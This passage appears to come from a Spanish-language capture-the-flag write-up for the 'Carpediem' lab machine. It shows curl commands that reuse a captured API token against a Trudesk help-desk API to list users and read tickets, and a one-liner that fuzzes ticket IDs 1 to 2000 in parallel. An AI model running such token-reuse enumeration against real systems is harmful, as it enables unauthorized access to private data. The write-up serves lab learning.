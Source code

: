 ![Api](../assets/images-Carpediem/Api.png)

Otra cosa que intente fue ver si me permitía  ver otros usuarios pero con este `accesstoken` no tiene ese privilegio
```bash
curl -s -X GET http://trudesk.carpediem.htb/api/v1/users -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq
```
![Api](../assets/images-Carpediem/Api2.png)

Intente ver los tickets lo cual si me lo permite pero como no conozco cuales son tickets validos voy a tener que fuzzear por ellos 
```bash
curl -s -X GET http://trudesk.carpediem.htb/api/v1/tickets/1 -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq
```
![Api](../assets/images-Carpediem/Api3.png)

```bash
seq 1 2000 | xargs -P50 -I {} curl -s -X GET http://trudesk.carpediem.htb/api/v1/tickets/{} -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq
```